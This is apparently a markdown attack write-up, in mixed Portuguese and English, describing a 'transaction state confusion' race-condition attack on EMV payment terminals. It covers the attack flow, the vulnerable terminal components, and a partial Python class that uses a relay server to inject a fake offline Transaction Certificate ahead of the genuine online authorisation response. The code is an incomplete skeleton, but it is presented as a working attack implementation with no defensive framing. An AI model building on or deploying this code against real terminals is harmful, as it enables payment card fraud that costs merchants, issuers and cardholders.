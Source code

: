# Attack Vector 2: Transaction State Confusion Attack

## Concept
**Nome:** "Confusão de Estado de Autorização"
**Alvo:** Máquina de estados do terminal durante processamento online/offline
**Objetivo:** Explorar janelas de timing entre decisões de autorização para criar estados conflitantes de transação.

## Technical Description

### Attack Flow
1. **State Initialization**: Card solicita autorização online (ARQC)
2. **Race Condition**: Adversário injeta aprovação offline falsa (TC) antes da resposta online
3. **State Confusion**: Terminal processa ambas as respostas, criando estado inconsistente
4. **Exploitation**: Aproveitamento do estado confuso para bypass de controles

### Vulnerable Components
- **Authorization State Machine**: Lógica de transição entre estados online/offline
- **Response Processing**: Falta de serialização adequada de respostas
- **Timeout Handling**: Janelas de timing exploráveis entre requisições

### Implementation Details

#### Core State Confusion Logic (Python)
```python
class StateConfusionAttack:
    def __init__(self, relay_server):
        self.relay_server = relay_server
        self.pending_transactions = {}
        self.timing_window_ms = 50  # Critical timing window
        
    def initiate_state_confusion(self, pan, atc, original_arqc):
        """
        Inicia ataque de confusão de estado
        """
        # Store original ARQC transaction
        tx_key = f"{pan}_{atc}"
        self.pending_transactions[tx_key] = {
            'state': 'PENDING_ONLINE',
            'original_arqc': original_arqc,
            'timestamp': time.time()
        }
        
        # Immediately inject fake offline approval
        self.inject_fake_offline_approval(pan, atc)
        
    def inject_fake_offline_approval(self, pan, atc):
        """
        Injeta aprovação offline falsa antes da resposta online
        """
        # Create fake TC (Transaction Certificate)
        fake_tc_data = self.generate_fake_tc(pan, atc)
        
        # Inject with carefully calculated timing
        threading.Timer(
            self.timing_window_ms / 1000.0,
            self.send_fake_response,
            args=[fake_tc_data]
        ).start()
        
```